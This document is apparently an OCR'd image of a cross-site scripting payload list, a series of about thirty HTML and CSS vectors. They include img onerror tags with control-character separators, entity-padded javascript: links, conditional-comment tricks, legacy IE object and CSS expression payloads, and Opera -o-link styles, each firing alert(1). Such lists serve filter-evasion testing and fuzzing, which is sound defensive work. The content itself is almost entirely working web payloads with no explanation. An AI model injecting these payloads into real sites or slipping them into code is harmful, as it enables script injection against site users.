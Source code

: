 &lt;img src\x09=x onerror="javascript:alert(1)"&gt;

&lt;img src\x10=x onerror="javascript:alert(1)"&gt;

&lt;img src\x13=x onerror="javascript:alert(1)"&gt;

&lt;img src\x32=x onerror="javascript:alert(1)"&gt;

&lt;img src\x12=x onerror="javascript:alert(1)"&gt;

&lt;img src\x11=x onerror="javascript:alert(1)"&gt;

&lt;img src\x00=x onerror="javascript:alert(1)"&gt;

&lt;img src\x47=x onerror="javascript:alert(1)"&gt;

&lt;img src=x\x09onerror="javascript:alert(1)"&gt;

&lt;img src=x\x10onerror="javascript:alert(1)"&gt;

&lt;img src=x\x11onerror="javascript:alert(1)"&gt;

&lt;img src=x\x12onerror="javascript:alert(1)"&gt;

&lt;img src=x\x13onerror="javascript:alert(1)"&gt;

&lt;img[a][b][c]src[d]=x[e]onerror=[f]"alert(1)"&gt;

&lt;img src=x onerror=\x09"javascript:alert(1)"&gt;

&lt;img src=x onerror=\x10"javascript:alert(1)"&gt;

&lt;img src=x onerror=\x11"javascript:alert(1)"&gt;

&lt;img src=x onerror=\x12"javascript:alert(1)"&gt;

&lt;img src=x onerror=\x32"javascript:alert(1)"&gt;

&lt;img src=x onerror=\x00"javascript:alert(1)"&gt;

&lt;a href=java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:javascript:alert(1)&gt;XXX&lt;/a&gt;

&lt;img src="x` `&lt;script&gt;javascript:alert(1)&lt;/script&gt;"` `&gt;

&lt;img src onerror /" '"= alt=javascript:alert(1)//"&gt;

&lt;title onpropertychange=javascript:alert(1)&gt;&lt;/title&gt;&lt;title title=&gt;

&lt;a href=http://foo.bar/#x=`y&gt;&lt;/a&gt;&lt;img alt="`&gt;&lt;img src=x:x onerror=javascript:alert(1)&gt;&lt;/a&gt;"&gt;

&lt;!--[if]&gt;&lt;script&gt;javascript:alert(1)&lt;/script --&gt;

&lt;!--[if&lt;img src=x onerror=javascript:alert(1)//]&gt; --&gt;

&lt;object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"&gt;&lt;/object&gt; &lt;object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"&gt;&lt;param name=postdomevents /&gt;&lt;/object&gt;

&lt;a style="-o-link:'javascript:javascript:alert(1)';-o-link-source:current"&gt;X

&lt;style&gt;p[foo=bar{}*{-o-link:'javascript:javascript:alert(1)'}{}*{-o-link-source:current}]{color:red};&lt;/style&gt;

&lt;link rel=stylesheet href=data:,*%7bx:expression(javascript:alert(1))%7d
